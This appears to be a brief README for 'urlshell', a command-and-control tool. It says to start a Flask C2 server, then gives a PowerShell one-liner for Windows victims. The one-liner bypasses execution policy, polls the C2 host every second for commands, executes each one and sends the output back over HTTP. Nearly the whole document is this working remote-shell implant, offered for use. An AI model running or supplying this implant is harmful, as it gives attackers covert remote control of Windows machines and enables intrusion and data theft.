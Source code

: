 # Running urlshell
## On C2
```
pip install flask

python3 urlshell.py
```

## On windows
```
Set-ExecutionPolicy Unrestricted -Scope Process -Confirm:$false;$i="http://127.0.0.1:5000";$l=@();while($true){$r = iwr $i/a.js;$b = iwr $i/b.js;$c = $r.Content;$b = $b.Content;if($l -contains $b){}else{$l += $b; $z=&$c;iwr $i/">"$z};Start-Sleep -Seconds 1;$z = ""} 
```

